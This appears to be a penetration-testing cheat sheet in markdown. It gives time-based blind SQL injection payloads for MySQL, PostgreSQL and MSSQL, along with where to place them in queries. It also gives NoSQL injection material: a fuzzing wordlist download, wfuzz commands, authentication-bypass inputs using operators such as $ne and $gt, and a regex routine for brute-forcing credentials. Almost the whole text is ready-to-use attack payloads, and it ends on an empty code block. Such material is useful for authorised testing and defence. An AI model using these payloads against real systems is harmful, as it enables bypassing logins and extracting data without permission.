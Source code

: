 ### SQLI conditional sleep
- Get some data _(returns true regardless of conditions, but sleeps on every row, so consider limiting the result set)_:
```SQL
IF((<conditional_payload>), sleep(5), sleep(0))=sleep(0) -- MySQL
(CASE WHEN(<conditional_payload>) THEN chr(97)||pg_sleep(5) ELSE chr(97) END)=chr(97) -- PostgreSQL
```
- Locations:
```SQL
SELECT column FROM table WHERE another_column = 'correct_value' AND <conditional_sleep> -- SELECT WHERE
SELECT column FROM table WHERE <conditional_sleep> -- SELECT TABLE NAME
SELECT column FROM table GROUP BY column HAVING column = 'any_value' AND <conditional_sleep> -- SELECT HAVING

UPDATE table SET column = 'value' WHERE another_column = 'any_value' AND <conditional_sleep> -- UPDATE WHERE
```

### SQLI conditional batch query sleep
- Get some data _(can be used as batch queries only)_:
```SQL
; SELECT IF((<conditional_payload>),sleep(5),sleep(0)) -- MySQL. Only a couple of PHP and Python APIs support this.
; IF (<conditional_payload>) WAITFOR DELAY '0:0:5' -- MSSQL. Time cannot be replaced with chars.
; SELECT CASE WHEN (<conditional_payload>) THEN pg_sleep(5) ELSE pg_sleep(0) END -- PostgreSQL
```

## NoSQL injection
### NoSQLI Fuzzing
```bash
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/NoSQL%20Injection/Intruder/NoSQL.txt
wfuzz -c -w ./NoSQL.txt -d 'username=FUZZ&password=anypassword' -u <url>
```
### NoSQLI authentication bypass
- Form data:
```
username[$ne]=wrongdata&password[$ne]=wrongdata
username[$regex]=a.*&password[$ne]=wrongdata
username[$gt]=admin&password[$ne]=wrongdata
```
- Json:
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "wrongdata"}, "password": {"$ne": "wrongdata"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt": ""}, "password": {"$gt": ""}}
```
### NoSQLI username/password brute-forcing
- Form data:
```bash
echo 'a b c d e f g h i j k l m n o p q r s t u v w x y z A B C D E F G H I J K L M N O P Q R S T U V W X Y Z 0 1 2 3 4 5 6 7 8 9 ! " # \$ % %26 '"'"' \( \) \* \+ , - \. / : ; < = > \? @ \[ \\\\ \] \^ _ ` \{ \| \} ~' > nosqli_regex.txt # Regex special characters are escaped
sed 's/\s\+/\n/g' -i nosqli_regex.txt

wfuzz -c -z file,./nosqli_regex.txt -d 'username[$regex]=^FUZZ.*&password[$ne]=wrongdata' -u <url>
wfuzz -c -z file,./nosqli_regex.txt -d 'username=<username>&password[$regex]=^FUZZ.*' -u <url>
```
- Json:
```bash
```